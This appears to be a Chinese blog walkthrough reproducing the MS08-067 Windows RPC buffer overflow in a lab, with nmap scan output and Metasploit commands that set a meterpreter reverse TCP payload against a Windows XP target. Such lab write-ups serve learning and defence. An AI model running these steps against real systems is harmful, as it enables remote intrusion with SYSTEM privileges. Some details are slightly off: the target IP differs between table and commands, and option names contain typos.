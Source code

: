 ```yaml
---
layout: mypost
title: Metasploit-EclipsedWing 黯淡羽翼(MS08_067) 复现
categories: [Metasploit]
---
```



## 一. 概述
Microsoft Windows是美国微软（Microsoft）公司发布的一系列操作系统。 Windows的Server服务在处理特制RPC请求时存在缓冲区溢出漏洞。远程攻击者可以通过发送恶意的RPC请求触发这个溢出，导致完全入侵用户系统，以SYSTEM权限执行任意指令。 对于Windows 2000、XP和Server 2003，无需认证便可以利用这个漏洞；对于Windows Vista和Server 2008，可能需要进行认证。 目前这个漏洞正在被名为TrojanSpy:Win32/Gimmiv.A和TrojanSpy:Win32/Gimmiv.A.dll的木马积极的利用。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806220323485.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


详情请查阅下方微软官方文档

概览| 
-------- | -----
中文名：黯淡羽翼| 
微软官方编号：[MS08-067](https://docs.microsoft.com/zh-cn/security-updates/securitybulletins/2008/ms08-067)| 
CVE编号：[CVE-2008-4250](http://cve.scap.org.cn/vuln/VH-CVE-2008-4250)  | 
类型：远程代码执行|
官方评级：严重|
影响系统：win2000，winxp，winserver03|


## 二. 复现
这是一个有年代的漏洞了
| 攻击机 | 靶机 |
|--|--|
| IP：192.168.5.111 | 192.168.5.113 |
|OS：kali-linux | WindowsXPsp2

### 1.端口扫描
```powershell
root@kali-linux-wp:~# nmap -sS -Pn 192.168.5.114
Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-06 22:20 CST
Nmap scan report for 192.168.5.114
Host is up (0.0017s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2869/tcp open  icslap
MAC Address: 00:0C:29:9A:9C:2B (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.95 seconds
```

### 2.调用载荷
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806222236380.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

### 3. 配置IP，payload

```powershell
$ show options
$ set RHOSTS 192.168.5.114
$ set payload windows/meterpreter/reverse_ tcp
$ set RLHOST 192.168.5.111
$ exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806222401241.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806222708542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200806222822950.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)




